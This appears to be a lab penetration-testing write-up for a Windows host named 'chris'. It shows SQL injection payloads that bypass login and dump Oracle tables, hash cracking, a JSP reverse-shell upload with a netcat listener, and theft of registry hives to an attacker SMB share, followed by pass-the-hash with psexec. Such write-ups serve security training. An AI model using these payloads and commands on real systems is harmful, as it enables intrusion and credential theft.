# chris
## Summary
### System Information
```text
IP: 10.11.1.222
OS: Windows
Hostname: chris
```
### Credentials
```text
admin:adminadmin
```

### Hashes
```text
48ef4c1bb19a7e49c5961ce1a064f0f1

Administrator:500:aad3b435b51404eeaad3b435b51404ee:af636dea707fa9cf431562c90e8a4044:::
```

### Ports
```text
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
1521/tcp  open     oracle-tns    Oracle TNS listener 1.2.0.0.0 (unauthorized)
2030/tcp  open     oracle-mts    Oracle MTS Recovery Service
2233/tcp  open     infocrypt?
3389/tcp  open     ms-wbt-server Microsoft Terminal Services
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8009/tcp  open     ajp13         Apache Jserv (Protocol v1.3)
8080/tcp  open     http          Apache Tomcat 9.0.19
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     msrpc         Microsoft Windows RPC
49670/tcp open     msrpc         Microsoft Windows RPC
49684/tcp open     msrpc         Microsoft Windows RPC
49703/tcp open     oracle        Oracle Database
```

***

## Enumeration
### NMAP

```bash
nmap -sC -sV -v -Pn -T4 -p- -oN scans/nmap_full.txt 10.11.1.222
```

```text
PORT      STATE    SERVICE       VERSION
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
1521/tcp  open     oracle-tns    Oracle TNS listener 1.2.0.0.0 (unauthorized)
2030/tcp  open     oracle-mts    Oracle MTS Recovery Service
2233/tcp  open     infocrypt?
3389/tcp  open     ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: CHRIS
|   NetBIOS_Domain_Name: CHRIS
|   NetBIOS_Computer_Name: CHRIS
|   DNS_Domain_Name: chris
|   DNS_Computer_Name: chris
|   Product_Version: 10.0.17763
|_  System_Time: 2022-07-26T10:15:01+00:00
|_ssl-date: 2022-07-26T10:15:07+00:00; -5s from scanner time.
| ssl-cert: Subject: commonName=chris
| Issuer: commonName=chris
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-13T21:56:07
| Not valid after:  2023-01-12T21:56:07
| MD5:   40d1 2edc a6d1 25cf 6347 c5bf c944 e9a6
|_SHA-1: a278 5399 69c0 2a02 b3f0 6e3d c637 8108 7ef3 203b
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6832/tcp  filtered unknown
8009/tcp  open     ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open     http          Apache Tomcat 9.0.19
|_http-title: Apache Tomcat/9.0.19
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8507/tcp  filtered unknown
20483/tcp filtered unknown
23195/tcp filtered unknown
35622/tcp filtered unknown
38274/tcp filtered unknown
38368/tcp filtered unknown
38380/tcp filtered unknown
45941/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47697/tcp filtered unknown
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     msrpc         Microsoft Windows RPC
49670/tcp open     msrpc         Microsoft Windows RPC
49684/tcp open     msrpc         Microsoft Windows RPC
49703/tcp open     oracle        Oracle Database
50605/tcp filtered unknown
51233/tcp filtered unknown
51892/tcp filtered unknown
63290/tcp filtered unknown
```

### Website

There's a website on port `8080`.

  

### Directory Fuzzing

```bash
gobuster dir -u 10.11.1.222:8080 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

  

There's a login page.

  

## Shell as SYSTEM
### Testing SQLi

We can use the following SQLi payload to login without a username or password.

```sql
' OR 1=1-- -;
```

  

```sql
1' OR 1=1--
```

The `Author` input is also vulnerable to SQLi.

  

### Union-based SQLi

Now we can use union based SQLi to dump data from the database.

Returns no error.

```sql
1' order by 3--
```

Returns `2222`.

```sql
1' union select null,'2222',null from dual--
```

  

Returns the name of the database, `RA`.

```sql
1' union select null,sys.database_name,null from dual--
```

   

Returns a list of all tables in the database.

```sql
1' union select null,table_name,null from all_tables--
```

  

Returns a list of columns for the `WEB_ADMINS` table.

```sql
1' union select null,column_name,null from all_tab_columns where table_name='WEB_ADMINS'--
```

  

Returns usernames and passwords.

```sql
1' union select null,(ADMIN_NAME || ':' ||PASSWORD),null from WEB_ADMINS--
```

  

```text
admin:d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892
```

### Cracking Password

Let's find out what this hash is.

```bash
name-that-hash --text 'd82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892'
```

  

We can crack this using `hashcat`.

```bash
hashcat -m 1400 d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892 /usr/share/wordlists/rockyou.txt
```

  

```text
admin:adminadmin
```

### Admin Login

Now we can login as an admin.

  

We can see a file upload. Let's try and upload a shell.

```bash
cp /usr/share/webshells/jsp/jsp-reverse.jsp ./
```

  

If we head to [http://10.11.1.222:8080/blog/jsp-reverse.jsp](http://10.11.1.222:8080/blog/jsp-reverse.jsp) we are now able to enter our LHOST and LPORT to get our reverse shell.

Let's setup `netcat` first.

```bash
rlwrap nc -lnvp 9001
```

  

And we get our shell. We're already `SYSTEM`.

  

```powershell
type c:\users\administrator\desktop\proof.txt && ipconfig
```

  

```text
48ef4c1bb19a7e49c5961ce1a064f0f1
```

## Post Exploitation
### Dumping Hashes

We first need to setup an SMB share.

```bash
impacket-smbserver kali .
```

Now we can connect to the share on the target.

```powershell
net use * -smb2support \\192.168.119.230\kali
```

  

Then dump the hashes using `reg.exe`.

```powershell
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

  

Now we can copy it to the `z:\` SMB share.

```powershell
cp sam.save z:\
cp security.save z:\
cp system.save z:\
```

We can now extract the hashes using `impacket`.

```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL -outputfile hashes/hashes
```

  

### Persistence
We can use the `Administrator` NTLM hash to get a shell using `psexec` in a pass the hash attack.

```bash
impacket-psexec chris/Administrator@10.11.1.222 -hashes :af636dea707fa9cf431562c90e8a4044
```

  